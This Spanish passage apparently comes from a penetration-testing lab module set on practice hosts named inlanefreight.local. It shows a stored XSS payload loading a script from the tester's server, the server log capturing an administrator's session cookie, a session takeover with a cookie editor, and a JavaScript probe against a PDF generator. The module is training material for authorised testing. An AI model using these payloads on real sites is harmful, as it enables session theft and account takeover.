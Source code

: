 Finalmente, crea un nuevo ticket y envía lo siguiente en el campo de mensaje:


```r
"><script src=http://10.10.14.15:9200/script.js></script>
```

Obtenemos una devolución de llamada en nuestro servidor web con la cookie de sesión de un administrador:



```r
sudo php -S 0.0.0.0:9200

[Tue Jun 21 00:33:27 2022] PHP 7.4.28 Development Server (http://0.0.0.0:9200) started
[Tue Jun 21 00:33:42 2022] 10.129.203.101:40102 Accepted
[Tue Jun 21 00:33:42 2022] 10.129.203.101:40102 [200]: (null) /script.js
[Tue Jun 21 00:33:42 2022] 10.129.203.101:40102 Closing
[Tue Jun 21 00:33:43 2022] 10.129.203.101:40104 Accepted
[Tue Jun 21 00:33:43 2022] 10.129.203.101:40104 [500]: GET /index.php?c=session=fcfaf93ab169bc943b92109f0a845d99

<SNIP>
```

A continuación, podemos usar un complemento de Firefox como [Cookie-Editor](https://addons.mozilla.org/en-US/firefox/addon/cookie-editor/?utm_source=addons.mozilla.org&utm_medium=referral&utm_content=search) para iniciar sesión usando la cookie de sesión del administrador.

![text](https://academy.hackthebox.com/storage/modules/163/edit_cookie.png)

Haz clic en el botón de guardar para guardar la cookie llamada `session` y haz clic en `Login` en la parte superior derecha. Si todo funciona como se espera, seremos redirigidos a `http://support.inlanefreight.local/dashboard.php`. Tómate un tiempo y registra otro hallazgo: `Cross-Site Scripting (XSS)`, señalando que el hallazgo es de alto riesgo porque puede usarse para robar la sesión activa de un administrador y acceder al sistema de colas de tickets. Consulta el módulo [Cross-Site Scripting (XSS)](https://academy.hackthebox.com/module/details/103) para refrescar tu memoria sobre XSS y las diversas formas en que se puede aprovechar esta clase de vulnerabilidades, incluida la suplantación de sesiones.

---

## tracking.inlanefreight.local

El sitio en `http://tracking.inlanefreight.local/` nos permite ingresar un número de seguimiento y recibir un PDF que muestra el estado de nuestro pedido. La aplicación toma la entrada del usuario y genera un documento PDF. Al generar el PDF, podemos ver que el campo `Tracking #:` toma cualquier entrada (no solo números) que especifiquemos en el cuadro de búsqueda antes de hacer clic en el botón `Track Now`. Si insertamos una carga útil de JavaScript simple como `<script>document.write('TESTING THIS')</script>` y hacemos clic en `Track Now`, vemos que el PDF se genera y el mensaje `TESTING THIS` se renderiza, lo que parece significar que el código JavaScript se está ejecutando cuando el servidor web genera el documento.

![text](https://academy.hackthebox.com/storage/modules/163/tracking_rendered.png)
